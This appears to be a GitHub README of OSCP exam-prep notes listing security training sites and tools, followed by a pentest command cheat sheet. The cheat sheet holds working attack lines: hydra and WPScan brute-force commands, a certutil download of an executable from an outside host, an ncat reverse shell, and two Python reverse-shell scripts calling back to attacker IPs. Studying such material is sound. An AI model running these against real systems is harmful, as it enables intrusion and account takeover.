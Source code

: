 ## Useful Websites
[offical exam guide](https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide) <br>
[offical exam report](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf) <br>
[pentest.ws](https://pentest.ws): note taking <br>
[Burp Suite](https://portswigger.net/burp): tool for exploring web security. [Configure browser with Burp Suite](https://www.youtube.com/results?search_query=Configure+with+Burp+Suite) <br>
[OWASP juice box](https://owasp.org/www-project-juice-shop/): OWASP security trainings<br>
[hack this site]<br>
[over the wire]<br>
[pwnable.kr/xyz]<br>
[hack the box]<br>
[cybrary]<br>
[google gruyeye]<br>
[game of hacks]<br>
[bWAPP]<br>
[Webgoat]<br>
[hashcat](https://hashcat.net/wiki/doku.php?id=hashcat): password recovery tool<br>
[feroxbuster](https://github.com/epi052/feroxbuster): powerful forced browsing tool (gobuster、dirb)<br>
[AutoRecon](https://github.com/Tib3rius/AutoRecon): multi-threaded network reconnaissance tool which performs automated enumeration of services<br>
[explainshell](https://explainshell.com/): explain command-line<br>
[SecLists](https://github.com/danielmiessler/SecLists): It's a collection of multiple types of lists used during security assessments, collected in one place

## :warning: Exam Restrictions

[linPEAS](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/): Understanding the tools/scripts you use in a Pentest

## :hammer_and_wrench: Commands

### :open_file_folder: hydra

#### IMAP
```
hydra -L usernames.txt -P wordlists.txt -s 143 -f 192.168.0.1 imap
```
### :open_file_folder: cewl

```
cewl -d 4 https://192.168.0.1 -w /tmp/wordlists.txt
```

### :open_file_folder: download

#### windows

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```
### :open_file_folder: nmap

```
nmap -T5 192.168.10.0/24
```

```
nmap -Pn -p- -sC -sV -T4 192.168.201.159 
```
### :open_file_folder: reverse shell

ncat 
```
ncat -e /bin/bash 192.168.10.58 8080
```

python3(file)
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.130",80)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

python(file)
```
#!/usr/bin/env python
import os
import sys
try: 
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.112\",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'") 
except: 
        print 'ERROR...' 
sys.exit(0) 
```
### :open_file_folder: Cron jobs

```
crontab -l
```
```
ls -alh /etc/cron.* /etc/at*
```
```
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

unprivileged Linux process snooping: [pspy](https://github.com/DominicBreuker/pspy)

### :open_file_folder: WordPress 

[WPScan](https://github.com/wpscanteam/wpscan)

Find exploit

```
wpscan --url http://192.168.0.1/
```

Enumerate valid usernames

```
wpscan --url http://192.168.0.1/ --enumerate u1-1000
```

Brute-force attack

```
wpscan --url http://192.168.0.1/ --passwords /usr/share/wordlists/rockyou.txt --max-threads 50 --usernames admin
```

### :open_file_folder: LFI

#### [LFI Suite](https://github.com/D35m0nd142/LFISuite)
